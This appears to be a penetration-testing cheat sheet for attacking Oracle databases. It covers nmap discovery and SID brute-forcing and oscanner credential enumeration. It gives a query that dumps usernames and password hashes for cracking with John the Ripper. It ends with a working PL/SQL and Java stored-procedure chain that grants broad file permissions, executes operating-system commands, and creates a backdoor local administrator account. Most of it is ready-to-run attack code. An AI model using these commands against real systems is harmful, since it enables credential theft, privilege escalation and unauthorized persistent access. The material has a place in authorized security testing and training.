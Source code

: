 # ORACLE Database Cheat Sheet
This module will provide us with enough information to get going with a compromised Oracle database.

## Database Discovery
Nmap can be used to discover a database running on our target system like so,

`nmap -A -p 1521 (TARGET IP ADDRESS)`

## Database Enumeration
Once discovered, we can perform some light and heavy enumeration. We must be careful not to lock out any accounts.

### NMAP NSE Scripts
Nmap can be used to brute force a SID from an Oracle service. This is essentially the Database name. I would recommend building your own oracle-sids file to use from your other service / os / etc enumeration results. Even the hostname / domain names can be added to this file.

`nmap --script oracle-sid-brute -p 1521 (TARGET IP ADDRESS)`

### OScanner
[oscanner](https://tools.kali.org/vulnerability-analysis/oscanner) is a tool that can be used to enumerate users and passwords from a database.

`root@kali:~# oscanner -s (TARGET IP ADDRESS)`

## SQL Syntax
We can issue the following commands with an interface to the database. This could be SQLPlus, or DBeaver.

### Get all Usernames and Hashed Passwords:
To concatenate the usernams and passwords with a colon to be used by John the Ripper, do:

`SELECT Username || ':' || PASSWORD AS credentials FROM DBA_USERS;`

## SYSTEM-Level Command Excecution
Step 1: Add the correct permissions. This PL/SQL query will take a minute or two to complete and cannot be done using __dbeaver__, it must be done with the __sqlPlus>__ client provided by __Oracle__ to avoid a serious escaping issue with the driver used by dbeaver.
```
DECLARE
  l_schema VARCHAR2(30) := 'SYSTEM';
BEGIN
  DBMS_JAVA.grant_permission(l_schema, 'java.io.FilePermission', '<<ALL FILES>>', 'read ,write, execute, delete');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'writeFileDescriptor', '');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'readFileDescriptor', '');
END;/
```
Step 2: 
```
CREATE OR REPLACE AND RESOLVE JAVA SOURCE NAMED "mycmd" AS
import java.lang.*;
import java.io.*;
 
public class mycmd
{
 public static void execCommand (String command) throws IOException
 {
     Runtime.getRuntime().exec(command);
 }
};/
```
Step 3: 
```
CREATE OR REPLACE PROCEDURE run_cmd (p_command IN VARCHAR2)
AS LANGUAGE JAVA
NAME 'mycmd.execCommand (java.lang.String)';/
```
Step 4: Execute Commands:
```
exec run_cmd('net user npn pwned12345 /add');
exec run_cmd('net localgroup Administrators npn /add');
```
